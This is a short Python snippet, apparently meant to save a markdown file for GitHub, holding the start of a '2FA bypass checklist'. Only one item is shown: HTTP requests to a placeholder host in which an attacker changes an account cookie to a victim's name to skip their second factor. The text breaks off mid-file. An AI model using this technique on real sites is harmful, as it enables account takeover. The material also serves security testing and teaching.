# Save the full formatted markdown content as a .md file for the user to upload to GitHub

markdown_content = """
# ⚠ 2FA BYPASS CHECKLIST ⚠

A comprehensive checklist of common vulnerabilities and techniques to bypass Two-Factor Authentication (2FA).

---

## 🔓 Logic Flaws

- [ ] **Flawed Two-Factor Verification Logic**

```http
# Step 1
POST /login-steps/first HTTP/1.1
Host: vulnerable-website.com
...
username=carlos&password=qwerty

# Step 2
HTTP/1.1 200 OK
Set-Cookie: account=carlos

# Step 3
POST /login-steps/second HTTP/1.1
Host: vulnerable-website.com
Cookie: account=carlos
...
verification-code=123456

# Exploit
Change cookie value:
Cookie: account=victim-user

